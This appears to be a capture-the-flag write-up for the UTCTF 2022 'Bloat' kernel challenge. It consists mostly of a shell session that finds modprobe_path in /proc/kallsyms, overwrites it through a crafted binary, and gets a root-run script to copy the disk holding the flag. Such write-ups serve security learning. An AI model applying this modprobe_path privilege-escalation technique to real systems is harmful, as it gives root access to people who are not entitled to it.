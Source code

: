 # Bloat  
```
Login with username bloat and no password
```
```
# cat /proc/kallsyms | grep modprobe
ffffffff81073100 t free_modprobe_argv
ffffffff82038180 D modprobe_path
```
```
$ echo -ne '\x80\x81\x03\x82\xff\xff\xff\xff/tmp/a\x00' > /tmp/b.bloat
echo -ne '\x80\x81\x03\x82\xff\xff\xff\xff/tmp/a\x00' > /tmp/b.bloat
$ echo -ne '#!/bin/sh\ncp /dev/sda /tmp/flag' > /tmp/a
echo -ne '#!/bin/sh\ncp /dev/sda /tmp/flag' > /tmp/a
$ echo -ne '\xff\xff\xff\xff' > /tmp/c
echo -ne '\xff\xff\xff\xff' > /tmp/c
$ chmod +x /tmp/a /tmp/b.bloat /tmp/c
chmod +x /tmp/a /tmp/b.bloat /tmp/c
$ /tmp/b.bloat
/tmp/b.bloat
Segmentation fault
$ /tmp/c
/tmp/c
/tmp/c: line 1: ����: not found
$ cat /tmp/flag
cat /tmp/flag
utflag{oops_forgot_to_use_put_user283558318}
```

flag: `utflag{oops_forgot_to_use_put_user283558318}`

[https://heinen.dev/utctf-2022/](https://heinen.dev/utctf-2022/)  
[https://gist.github.com/ReDucTor/4054fc4509e34979fb66ee78405fa45f](https://gist.github.com/ReDucTor/4054fc4509e34979fb66ee78405fa45f)  
[https://github.com/nobodyisnobody/write-ups/tree/main/UTCTF.2022/pwn/bloat](https://github.com/nobodyisnobody/write-ups/tree/main/UTCTF.2022/pwn/bloat)  

